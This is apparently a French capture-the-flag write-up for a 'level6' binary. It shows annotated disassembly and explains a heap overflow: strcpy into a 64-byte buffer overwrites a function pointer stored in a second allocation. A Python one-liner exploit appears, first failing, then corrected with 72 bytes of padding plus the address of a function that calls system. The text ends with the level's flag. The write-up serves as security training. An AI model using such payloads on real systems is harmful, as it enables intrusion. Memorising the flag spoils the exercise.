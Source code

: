 ```
08048454 <n>:
 8048454:	55                   	push   ebp
 8048455:	89 e5                	mov    ebp,esp
 8048457:	83 ec 18             	sub    esp,0x18
 804845a:	c7 04 24 b0 85 04 08 	mov    DWORD PTR [esp],0x80485b0
 8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
 8048466:	c9                   	leave  
 8048467:	c3                   	ret    

08048468 <m>:
 8048468:	55                   	push   ebp
 8048469:	89 e5                	mov    ebp,esp
 804846b:	83 ec 18             	sub    esp,0x18
 804846e:	c7 04 24 d1 85 04 08 	mov    DWORD PTR [esp],0x80485d1
 8048475:	e8 e6 fe ff ff       	call   8048360 <puts@plt>
 804847a:	c9                   	leave  
 804847b:	c3                   	ret    

0804847c <main>:
 804847c:	55                   	push   ebp
 804847d:	89 e5                	mov    ebp,esp
 804847f:	83 e4 f0             	and    esp,0xfffffff0
 8048482:	83 ec 20             	sub    esp,0x20
 8048485:	c7 04 24 40 00 00 00 	mov    DWORD PTR [esp],0x40		; 64
 804848c:	e8 bf fe ff ff       	call   8048350 <malloc@plt>
 8048491:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax	; (void *) ptr
 8048495:	c7 04 24 04 00 00 00 	mov    DWORD PTR [esp],0x4
 804849c:	e8 af fe ff ff       	call   8048350 <malloc@plt>
 80484a1:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 80484a5:	ba 68 84 04 08       	mov    edx,0x8048468
 80484aa:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80484ae:	89 10                	mov    DWORD PTR [eax],edx
 80484b0:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]	; argv[0]
 80484b3:	83 c0 04             	add    eax,0x4					; argv[1]
 80484b6:	8b 00                	mov    eax,DWORD PTR [eax]
 80484b8:	89 c2                	mov    edx,eax
 80484ba:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]	; (void *) ptr
 80484be:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx	; argv[1]
 80484c2:	89 04 24             	mov    DWORD PTR [esp],eax		; (void *) ptr
 80484c5:	e8 76 fe ff ff       	call   8048340 <strcpy@plt>		; strcpy(ptr, argv[1]);
 80484ca:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]	; pointeur contenu dans la 2nd malloc
 80484ce:	8b 00                	mov    eax,DWORD PTR [eax]		; on le destack
 80484d0:	ff d0                	call   eax						; on l'appel
 80484d2:	c9                   	leave  
 80484d3:	c3                   	ret    
```

Ici, heap buffer overflow, on a juste a overflow les 64 premiers caractères mallocs, et quand c'est fait, on va pouvoir écrire dans l'adresse contenu du second malloc et qui va être appelée. Tout ça évidemment en passant un argument au binaire.

Exploit : `python -c 'print("A" * 64 + "\x54\x84\x04\x08")' | xargs -0 ./level6`

Mais ça ne marche pas. Après avoir regardé le contenu du buffer avant et après le `strcpy`, je me suis rendu compte qu'il manquit 8 octets dans notre exploit.

`./level6 "$(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')"`

Flag: `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`